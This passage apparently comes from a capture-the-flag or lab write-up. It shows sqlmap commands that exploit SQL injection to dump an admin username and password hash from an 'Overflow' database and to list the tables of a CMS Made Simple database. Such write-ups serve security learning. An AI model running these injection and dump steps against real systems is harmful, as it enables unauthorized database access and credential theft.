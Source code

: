 DB->Overflow:
```bash
sqlmap -r logs.req --batch -dbms=mysql -D Overflow --tables --dump

Database: Overflow
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| c71d60439ed5590b3c5e99d95ed48165 | admin    |
+----------------------------------+----------+
```
I could not crack this password! Lets move on.

DB->cmsmsdb:
```bash
sqlmap -r logs.req --batch -dbms=mysql -D cmsmsdb --tables

Database: cmsmsdb                                                                                                                              [10/581]
[47 tables]                                                                                                                                            
+-----------------------------+                                                                                                                        
| cms_additional_users        |                                                                                                                        
| cms_additional_users_seq    |                                                                                                                        
| cms_admin_bookmarks         |                                                                                                                        
| cms_admin_bookmarks_seq     |                                                                                                                        
| cms_adminlog                |                                                                                                                        
| cms_content                 |                                                                                                                        
| cms_content_props           |                                                                                                                        
| cms_content_props_seq       |                                                                                                                        
| cms_content_seq             |
| cms_event_handler_seq       |
| cms_event_handlers          |
| cms_events                  |
| cms_events_seq              |
| cms_group_perms             |
| cms_group_perms_seq         |
| cms_groups                  |
| cms_groups_seq              |
| cms_layout_design_cssassoc  |
| cms_layout_design_tplassoc  |
| cms_layout_designs          |
| cms_layout_stylesheets      |
| cms_layout_templates        |
| cms_layout_tpl_addusers     |
| cms_layout_tpl_categories   |
| cms_layout_tpl_type         |
| cms_locks                   |
| cms_mod_cmsjobmgr           |
| cms_mod_filepicker_profiles |
| cms_module_deps             |
| cms_module_search_index     |
| cms_module_search_items     |
| cms_module_search_items_seq |
```